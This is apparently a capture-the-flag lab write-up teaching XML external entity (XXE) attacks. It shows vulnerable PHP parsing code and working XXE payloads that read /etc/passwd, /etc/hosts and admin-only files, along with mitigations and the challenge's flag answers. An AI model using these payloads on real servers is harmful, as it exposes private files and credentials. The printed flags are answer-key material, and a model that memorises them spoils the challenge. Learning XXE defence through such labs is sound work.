

# Day 5 - Exploiting XXE



# Extensible Markup Language (XML)

XML is a structured format used to transport and store data that is both human- and machine-readable. It facilitates communication between systems by providing a common data exchange format.

### Key Features of XML:

- **Tags**: Used to label and organize information (e.g., `<people>`, `<name>`, `<address>`).
- **Customizability**: Users can create their own tags.
- **Shareability**: XML allows easy data exchange between systems.

### Example XML:

```xml
<people>
  <name>Glitch</name>
  <address>Wareville</address>
  <phone>111000</phone>
</people>

```

---

# Document Type Definition (DTD)

A DTD defines the structure of an XML document, ensuring consistency and adherence to specific rules. It serves as a blueprint, similar to a database schema

```xml
<!DOCTYPE people [
   <!ELEMENT people(name, address, email, phone)>
   <!ELEMENT name (#PCDATA)>
   <!ELEMENT address (#PCDATA)>
   <!ELEMENT email (#PCDATA)>
   <!ELEMENT phone (#PCDATA)>
]>

```

- **`<!ELEMENT>`**: Defines the tags allowed in the document.
- **`#PCDATA`**: Specifies that the content (parsed data) is plain text.

---

# Entities in XML

Entities act as placeholders to manage reusable or external data in XML documents. They simplify XML management, especially for repeated data or referencing external files.

### Example External Entity:

```xml
<!DOCTYPE people [
   <!ENTITY ext SYSTEM "http://tryhackme.com/robots.txt">
]>
<people>
   <name>Glitch</name>
   <address>&ext;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

---

# XML External Entity (XXE) Vulnerability

**XXE** exploits XML parsers' handling of external entities. If the parser processes an untrusted XML file containing malicious entities, it may expose sensitive data or execute malicious code.

```xml
<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

- **Impact**: The parser attempts to load the sensitive file `/etc/passwd`, potentially exposing it to attackers.
- **Mitigation**: Proper sanitization and disabling of external entity processing are critical.

---

# Exploiting XXE in a Web App:

## App Flow:

1. First, the user will browse through the products and add items of interest to their wish list at `/product.php`. Click on the `Add to Wishlist` under `Wareville's Jolly Cap`, as shown below:


1. After adding products to the wishlist, click the `Cart` button or visit `/cart.php` to see the products added to the cart. On the `Cart` page, click the `Proceed to Checkout` button to buy the items as shown below:


1. On the checkout page, the user will be prompted to enter his name and address as shown below:


1. Enter any name and address, and click on `Complete Checkout` to place the wish. Once you complete the wish, you will be shown the message **"Wish successful. Your wish has been saved as Wish #xx"**, as shown below:


1. **Wish #xx** indicates the wishes placed by a user on the website. Once you click on **Wish #xx**, you will see a forbidden page because the details are only accessible to `admins`.


## Intercepting the Request:

On visiting the `product.php` page, and clicking  `Add to Wishlist`, an AJAX call is made to `wishlist.php` with the following XML as input. 

```xml
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>1</product_id>
     </item>
</wishlist>
```


This `wishlist.php` accepts the request and parses the request using the following code:

```php
<?php
..
...
libxml_disable_entity_loader(false);
$wishlist = simplexml_load_string($xml_data, "SimpleXMLElement", LIBXML_NOENT);

...
..
echo "Item added to your wishlist successfully.";
?>
```

### **Preparing the Payload**

The function `libxml_disable_entity_loader(false)` enables XML parsers to load external entities, allowing crafted XML input to reference external files or make remote server requests. When processed by `simplexml_load_string` with the `LIBXML_NOENT` option, the application resolves these entities. This can expose sensitive files or trigger unintended server requests, creating a security vulnerability for attackers to exploit by embedding malicious external entity references in the XML payload.

Payload:

```php
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>

```

The line <**!ENTITY payload SYSTEM "/etc/hosts">** tells the XML parser to replace the **&payload;** reference with the contents of the file **/etc/hosts** on the server. When the XML is processed, instead of a normal **product_id**, the application will try to load and include the contents of the file specified in the entity (`/etc/hosts`).

### Exploitation:


Earlier, we discovered a page accessible only by administrators, which seems like an exciting target. We can try and use XXE to access the wishes page.

We can now try and access the page that is only accessible by admins - `/wishes/wish_1.txt`. Using this path, we just need to guess the potential absolute path of the file. Typically, web applications are hosted on `/var/www/html`. With that in mind, let's build our new payload to read the wishes while leveraging the vulnerability.

```php
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>

```


This shows that the application is indeed vulnerable to XXE attacks. The following measures can be used to prevent such attacks in the future:

- **Disable External Entity Loading**: Prevent XML parsers from loading external entities (e.g., using `libxml_disable_entity_loader(true)` in PHP).
- **Validate and Sanitize User Input**: Ensure only expected data is processed by validating XML inputs and removing suspicious content, such as references to sensitive files like `/etc/host` or `/etc/passwd`.

In the challenge, the `CHANGELOG` eventually reveals something interesting. It looks like someone had purposely pushed the malicious code to production!

---

## Questions

1. What is the flag discovered after navigating through the wishes?
    
    We can use the payload we crafted to access the `wishes` text files and change the wish number one by one until we see a flag. On using the payload `<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_15.txt">` , we see a flag pop up in the response
    


Ans.: **THM{Brut3f0rc1n6_mY_w4y}**

1. What is the flag seen on the possible proof of sabotage?
    
    
    From the challenge notes we see that McSkidy observed an interesting change being pushed into the application by Mayor Malware. By navigating to  `CHANGELOG`, we see that Mayor Malware had indeed pushed malicious code. Subsequently we also see the flag required! 
    


Ans.: **THM{m4y0r_m4lw4r3_b4ckd00rs}**